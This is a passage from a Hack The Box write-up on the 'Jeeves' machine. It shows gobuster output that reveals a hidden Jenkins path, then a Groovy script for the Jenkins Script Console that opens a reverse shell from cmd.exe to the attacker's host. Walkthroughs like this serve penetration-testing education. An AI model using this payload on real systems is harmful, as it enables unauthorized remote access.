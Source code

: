 ```
2020/09/08 13:37:11 Starting gobuster
===============================================================
/askjeeves (Status: 302)
===============================================================
2020/09/08 13:44:18 Finished
===============================================================
```

Navigating to `http://10.10.10.63:50000/askjeeves` redirected me to a jenkins service:

![](/assets/images/htb-jeeves/jeeves-hidden-jenkins-service.png)

## Exploitation (Jenkins Script Console Remote Code Execution)

After some google searching, I found out that it is possible to execute code from the Jenkins Script Console at `http://10.10.10.63:50000/askjeeves/script`. I used code from following [jist](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a netcat reverse shell.

```
String host="10.10.14.24";
int port=2001;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
